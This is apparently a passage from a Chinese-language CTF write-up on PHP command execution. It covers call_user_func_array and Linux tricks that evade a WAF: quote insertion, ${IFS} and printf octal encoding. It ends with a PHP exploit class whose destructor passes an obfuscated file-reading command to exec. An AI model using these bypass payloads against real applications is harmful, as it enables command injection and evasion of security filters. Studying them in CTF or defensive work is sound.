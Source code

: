 - `callback`

  被调用的回调函数。

- `param_arr`

  要被传入回调函数的数组，这个数组得是索引数组。

###### 返回值

返回回调函数的结果。如果出错的话就返回**`FALSE`**

### Linux部分

Linux 命令中插入引号依然可以继续执行想要执行的命令

```
┌──(root㉿pinginglab)-[/home/pinginglab/php-exec]
└─# c''at f''lag.txt
flag is this
                                                                                                                                                    
┌──(root㉿pinginglab)-[/home/pinginglab/php-exec]
└─# c""at f""lag.txt
flag is this
```

Linux 中可以使用`printf`配合编码打印出想要打印的字符串

```
\NNN 八进制数 NNN 所代表的 ASCII 码字符。
\xHH 十六进制 HH 对应的8位字符。HH 可以是一到两位。
\uHHHH 十六进制 HHHH 对应的 Unicode 字符。HHHH 一到四位。
\UHHHHHHHH十六进制 HHHHHHHH 对应的 Unicode 字符。HHHHHHHH 一到八位
```

```
┌──(root㉿pinginglab)-[/home/pinginglab/php-exec]
└─# printf "\57"
/ 
```

### 解题流程

使用双引号绕过WAF，`$(printf${IFS}"\57") = /`

**最后脚本**

```php
<?php

class ease
{

    public $method = "ping";
    public $args = array('c""at${IFS}f""lag_1s_here$(printf${IFS}"\57")f""lag_831b69012c67b35f.p""hp');

    function __destruct()
    {
        # $method 必须是字符串 ping
        if (in_array($this->method, array("ping"))) {
            call_user_func_array(array($this, $this->method), $this->args);
        }
    }

    function ping($ip)
    {
        exec($ip, $result);
        var_dump($result);
    }
```